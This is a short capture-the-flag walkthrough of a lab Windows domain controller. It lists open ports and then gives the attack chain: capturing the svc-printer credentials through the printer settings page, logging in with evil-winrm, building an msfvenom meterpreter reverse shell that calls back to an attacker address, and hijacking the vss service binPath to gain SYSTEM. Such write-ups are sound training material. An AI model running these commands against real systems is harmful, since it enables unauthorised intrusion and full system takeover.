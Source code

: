 # Return

- port 53/tcp DNS Simple DNS Plus
- port 80/tcp HTTP Microsoft IIS httpd 10.0
- port 88/tcp kerberos-sec Microsoft Windows Kerberos
- port 135/tcp msrpc Microsoft Windows RPC
- port 139/tcp netbios-ssn Microsoft Windows netbios-ssn
- port 389/tcp ldap Microsoft Windows Active Directory LDAP
- port 445/tcp microsoft-ds
- port 464/tcp passwd5? 
- port 593/tcp ncacn_http Microsoft Windows RPC over HTTP 1.0
- port 636/tcp tcpwrapped
- port 3268/tcp ldap Microsoft Windows Active Directory LDAP
- port 3269/tcp tcpwrapped
- port 5985/tcp WinRM http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 9389/tcp mc-nmf .NET Message Framing
- port 47001/tcp http WinRM Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

### Exploitation

Web server on port 80 hosts printer config, allowing credential recovery for svc-printer account through 
settings tab by listening on port 389 and updating the Server address to our IP

Gain a remote shell with `evil-winrm -i 10.10.11.108 -u svc-printer -p password`

Enumerate the user

`whoami /priv`
`net user svc-printer`

The svc-printer user is a member of [Server Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators) a default Group that can start and stop services

Create a meterpreter reverse shell with msfvenom

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o shell.exe`

Using the evil-winrm shell we can upload the meterpreter shell and set it as a binary to a stopped service 
like vss, Volume Shadow Copy. Then we start msfconsole and run multi/handler with the correct payload, LHOST, 
and LPORT variables set. Finally stop and start the service to gain a remote shell as SYSTEM

```
*Evil-WinRM* PS C:> upload shell.exe
*Evil-WinRM* PS C:> sc.exe config vss binPath=C:\Users\svc-printer\Documents\shell.exe
*Evil-WinRM* PS C:> sc.exe stop vss
*Evil-WinRM* PS C:> sc.exe start vss
```

We can migrate to a more stable shell by running `ps` and then `migrate <PID>` to any service running as 
SYSTEM, drop into a shell and grab root.txt
